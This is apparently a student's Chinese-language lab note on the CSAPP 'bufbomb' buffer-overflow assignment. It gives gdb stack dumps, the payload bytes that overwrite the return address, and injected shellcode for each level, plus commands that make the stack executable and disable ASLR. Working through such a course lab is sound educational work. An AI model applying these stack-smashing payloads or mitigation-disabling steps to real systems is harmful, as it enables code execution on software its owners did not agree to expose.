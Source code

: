 ```yaml
---

类型: 笔记
创建日期: 2024-05-23
修改日期: 2024-05-23
---
```

## level 0 Candle
`(gdb) p/x &smoke`
`$1 = 0x8048e20`

单步调试机器指令 `stepi` `si`
```
Breakpoint 2, 0x08048ff1 in getbuf ()

(gdb)  info registers esp
esp            0xffffb070          0xffffb070
(gdb)  info registers ebp
ebp            0xffffb088          0xffffb088

(gdb) x/16xw $esp
0xffffb070:     0xffffb07c      0xf7ef8550      0x00000000      0x65646f77
0xffffb080:     0x0000616d      0x0804b5c0      0xffffb0a8    **0x0804901e**

(gdb) x/1xw $ebp
0xffffb0a8 
```
0x0804901e就是test中调用get_buf的下一条指令地址，要将其改为我们要的smoke地址0x8048e20，小端存储低地址在前。
我一直在想的是要保存好旧的ebp的那块区域，不然ebp无法正确返回到上一个栈。
想错了，ebp，esp中存放的是地址值，而我会覆盖的是地址值里的内容。
栈的扩张和收缩都是由ebp，esp（寄存器）传递自己内部保存的地址值整的，~~期间是不会去访问地址值内的内容的~~。（是会访问的，leave时要将旧ebp值弹回ebp，所以ebp里的值会出问题。
> leave：使栈做好返回准备，等价于
	mov %ebp，%esp
	pop %ebp

但是ret指令会把返回地址弹回esp，如果把此栈帧空间全部覆盖了，程序跳转是没问题的。**而且去下一个函数中执行时上来先push ebp，其实不会有影响**

要想覆盖掉返回地址，只需要看创建现在这个栈帧时分配了多大的空间，直接把对应得返回地址给覆盖了。


通过，构造字符串如下
`31 31 31 31 31 31 31 31 c0 b5 04 08 a8 b0 ff ff 1e 90 04 08`

```

Breakpoint 2, 0x08048fe6 in getbuf ()
(gdb) x/16xw $ebp-0xc
0xffffb07c:     0x00000000      0x00000004      0x0804b5c0      0xffffb0a8
0xffffb08c:     0x0804901e      0x00000003      0x08049ac7      0xffffb0b4
0xffffb09c:     0x00000000      0xffffb0c0      0xdeadbeef      0xffffc888
0xffffb0ac:     0x08049105      0x08049ac7      0x000000f4      0x00001770
(gdb) c
Continuing.

Breakpoint 1, 0x08048ff1 in getbuf ()
(gdb) x/16xw $ebp-0xc
0xffffb07c:     0x04030201      0x08070605      0x12111009      0xffffb0a8
0xffffb08c:     0x08048e20      0x00000000      0x08049ac7      0xffffb0b4
0xffffb09c:     0x00000000      0xffffb0c0      0xdeadbeef      0xffffc888
0xffffb0ac:     0x08049105      0x08049ac7      0x000000f4      0x00001770
(gdb) 
```
问题：上一个函数的传参3为什么也没了
解答：经过测试发现是最后还添加一个0x00，刚好覆盖了
## level 1 Sparkler
`fizz`函数地址`08048dc0`
函数中`8048dc7:	8b 5d 08  mov 0x8(%ebp),%ebx  ; 入参int val`
要在ebp + 8 位置放好字符串，下图展示如何确定此位置
![[B6E3A24C5F56A69DF646F52EF8BC9CAA.png]]
`01 02 03 04 05 06 07 08 09 10 11 12 00 00 00 00 c0 8d 04 08 00 00 00 00 dd dd 68 57`
## Level 2 Firecracker
Bang地址`08048d60 <bang>:`
`mov    0x804a1dc,%eax                ; <global_value>`
`cmp    0x804a1cc,%eax                ; <cookie>`
首先要修改程序堆栈的可执行属性，然后关掉系统的栈地址随机化，否则每一次的缓冲区位置都不相同，无法通过缓冲区溢出跳转到此固定的缓冲区位置执行，即如下命令：
```shell
apt-get install execstack
execstack -s bufbomb
sudo sysctl -w kernel.randomize_va_space=0
```
打断点查看gets函数的传参地址
`(gdb) x $eax`
`0xffffb07c:     0x00000000`
构建栈上运行的代码：
```
movl $0x804a1cc, %eax
movl %eax, $0x804a1dc       ; 将cookie地址传给global_value
pushq $0x08048d60           ; 返回Bang运行
retq
```

转为汇编
```
vim bang.s
gcc -m32 -c bang.s
objdump -d bang.o > bang.txt
cat bang.txt

bang.o：     文件格式 elf32-i386


Disassembly of section .text:

00000000 <.text>:
   0:   a1 cc a1 04 08          mov    0x804a1cc,%eax
   5:   a3 dc a1 04 08          mov    %eax,0x804a1dc
   a:   68 60 8d 04 08          push   $0x8048d60
   f:   c3                      ret  

```


```
joseph@LAPTOP-E1IU5B7P:~/CSAPP/bufflab$ ./bufbomb -t SA23225138 < exploit-raw.txt 
Team: SA23225138
Cookie: 0x5768dddd
Type string:Bang!: You set global_value to 0x5768dddd
sh: 1: /usr/sbin/sendmail: not found
Error: Unable to send validation information to grading server
```

## level 3 dynamic
```
a1 cc a1 04 08 68 1e 90 04 08 c3 00 a8 b0 ff ff 7c b0 ff ff
```


## 要点
### level 0
只需要覆盖getbuf原本的返回值
### level 1
覆盖getbuf的返回值，对于入参还要将其放在对应的地方
### level 2
要栈上执行指令，那么需要将返回值修改为指令序列头部，即buf首地址。
指令内容：将cookie的值放入global_value，并push函数地址，这样执行完指令后跳转
### level 3
要栈上执行指令，那么需要将返回值修改为指令序列头部，即buf首地址。
指令内容：将cookie的值放入eax，并push下一条执行的地址，这样执行完指令后跳转
